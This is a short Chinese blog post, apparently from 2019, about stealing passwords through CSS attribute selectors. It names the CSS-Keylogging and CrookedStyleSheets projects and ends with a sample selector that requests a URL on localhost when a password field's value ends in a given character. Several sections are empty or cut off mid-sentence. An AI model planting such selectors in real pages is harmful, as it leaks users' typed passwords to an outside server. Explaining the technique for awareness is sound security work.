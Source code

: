 ```yaml
---
layout:     post
title:      一种通过CSS选择器盗取用户密码的攻击方式
subtitle:   web安全,不一样的css
date:       2019-03-12 13:57
author:     Youga
header-img: https://static.cjwddz.cn/blog/img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
  - web
  - security
---
```


最近有关于css安全问题的讨论比较火热。  

话题的开始是由两个有趣的开源项目，`CSS-Keylogging` 和 `CrookedStyleSheets`。  

其中，`CSS-Keylogging` 

而 `CrookedStyleSheets` 提供了一个无javascript的用户交互跟踪方案。仅通过css样式代码就可以跟踪用户何时悬停鼠标，何时点击链接，何时在输入字段中输入文本，以及收集大量真实的用户代理信息，即便用户使用假的UA也没有用。


## 此外，CSS能够完成的事情还有：

- 浏览器探测

- 操作系统探测



## 一些补救方法




两个项目给了前端开发者警惕。安全问题，无孔不入。以往我们关注跨站脚本攻击，避免非法代码被执行，而看似温顺的css现在安全性也需要重新去评估。



input[type="password"][value$="1"] { background-image: url("http://localhost:3000/1"); }

CSS-Keylogging

